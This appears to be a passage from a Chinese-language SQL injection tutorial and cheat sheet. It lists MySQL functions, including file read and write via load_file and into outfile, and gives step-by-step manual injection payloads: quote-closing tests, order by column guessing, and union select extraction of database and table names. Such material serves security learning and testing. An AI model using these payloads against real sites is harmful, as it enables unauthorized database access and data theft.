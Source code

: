*   **系统信息:**
    *   `version()` / `@@version`: 数据库版本。
    *   `database()`: 当前数据库名。
    *   `user()` / `current_user()` / `system_user()`: 当前用户。
    *   `@@datadir`: 数据存储目录。
    *   `@@basedir`: MySQL安装目录。
    *   `@@version_compile_os`: 操作系统。
    *   `sleep(seconds)`: 延时。
    *   `benchmark(count, expr)`: 重复执行表达式。
*   **字符串处理:**
    *   `concat(str1, str2, ...)`: 无分隔符连接。
    *   `concat_ws(separator, str1, str2, ...)`: 带分隔符连接。
    *   `group_concat(col)`: 将分组后的某列值用逗号连接。
    *   `length(str)`: 字符串字节长度。
    *   `char_length(str)`: 字符串字符长度。
    *   `substr(str, pos, len)` / `substring(...)` / `mid(...)`: 截取子串。
    *   `left(str, len)` / `right(str, len)`: 取左/右子串。
    *   `ascii(char)` / `ord(char)`: 字符转ASCII码。
    *   `char(num1, num2, ...)`: ASCII码转字符。
    *   `hex(str)` / `unhex(hex_str)`: 字符串与十六进制互转。
    *   `load_file(filepath)`: 读取文件内容。
    *   `into outfile 'filepath'` / `into dumpfile 'filepath'`: 写入文件。
*   **逻辑与控制:**
    *   `if(condition, true_val, false_val)`: 条件判断。
    *   `ifnull(expr1, expr2)`: 如果expr1不为NULL则返回expr1，否则返回expr2。
    *   `strcmp(str1, str2)`: 比较字符串 (相等返回0, str1>str2返回1, str1<str2返回-1)。
*   **数学:**
    *   `floor(num)`: 向下取整。
    *   `rand()`: 0到1之间的随机浮点数。
    *   `count(*)`: 统计行数。

## 手工注入步骤与技巧

1.  **寻找注入点:**
    *   识别所有用户可控的输入点（URL参数、POST数据、HTTP头、Cookie等）。
    *   重点关注与数据库交互的动态页面，特别是ID、搜索关键字、排序字段等参数。
    *   URL形式: `.../page.php?id=1`, `.../search?q=keyword`, `.../items/1`, `.../news.php?category=tech&page=2`。
2.  **判断注入类型与闭合方式:**
    *   **单引号法:** 加 `'`，看是否报错。
    *   **逻辑判断法:** 加 `and 1=1` 和 `and 1=2`，看页面响应是否不同。
    *   **组合尝试:**
        *   `' and 1=1 --+` / `' and 1=2 --+`
        *   `" and 1=1 --+` / `" and 1=2 --+`
        *   `) and 1=1 --+` / `) and 1=2 --+`
        *   `') and 1=1 --+` / `') and 1=2 --+`
        *   `") and 1=1 --+` / `") and 1=2 --+`
    *   **注释符:** `-- ` (注意后面有空格), `#` (URL编码为 `%23`), `;%00` (空字节截断, 特定场景)。
    *   **报错观察:** 故意构造错误语句（如 `union select 1` 列数不匹配），观察报错信息获取闭合提示。
3.  **猜解列数 (UNION注入):**
    *   `order by 1 --+`
    *   `order by 2 --+`
    *   ... 逐步增加数字，直到页面报错，报错前最后一个成功的数字即为列数。
4.  **确定显示位 (UNION注入):**
    *   假设有3列：`union select 1,2,3 --+`
    *   或者：`union select null,null,null --+`
    *   或者：`union select 'a','b','c' --+`
    *   观察页面哪个位置显示了注入的数字或字符，该位置即可用于显示查询结果。
5.  **获取信息:**
    *   利用上一步确定的显示位，替换为查询语句。
    *   **查库名:** `union select 1, database(), 3 --+`
    *   **查表名:** `union select 1, group_concat(table_name), 3 from information_schema.tables where table_schema=database() --+`